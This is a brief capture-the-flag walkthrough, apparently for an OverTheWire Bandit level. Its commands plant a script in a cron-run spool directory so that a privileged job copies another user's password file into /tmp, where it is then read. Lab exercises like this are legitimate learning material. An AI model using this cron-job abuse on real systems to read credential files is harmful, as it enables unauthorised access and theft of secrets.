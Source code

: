 cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
vim /var/spool/bandit24/pass.sh
```
cat /etc/bandit_pass/bandit24 > /tmp/luax_bandit24
```

chmod +x /var/spool/bandit24/pass.sh
-- wait 1m
cat /tmp/luax_bandit24
